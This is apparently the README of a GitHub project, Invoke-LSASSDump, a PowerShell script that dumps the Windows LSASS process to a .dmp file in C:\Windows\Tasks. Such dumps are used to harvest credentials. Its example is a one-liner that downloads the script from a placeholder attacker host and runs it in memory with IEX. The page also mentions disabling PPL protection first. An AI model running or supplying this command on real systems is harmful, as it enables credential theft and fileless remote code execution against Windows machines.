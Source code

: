 # Invoke-LSASSDump
A small script to dump the LSASS process via PowerShell. 

# Example

Once we have enough permissions and PPL disabled (if need be), we can invoke the following and a **.dmp** file of the LSASS process will be created in the C:\Windows\Tasks folder:

```
PS > IEX ((New-Object System.Net.WebClient).DownloadString('http://<YOUR IP>/Invoke-LSASSDump.ps1'))
```

The script returns a boolean value of *True* if the LSASS process has been dumped.
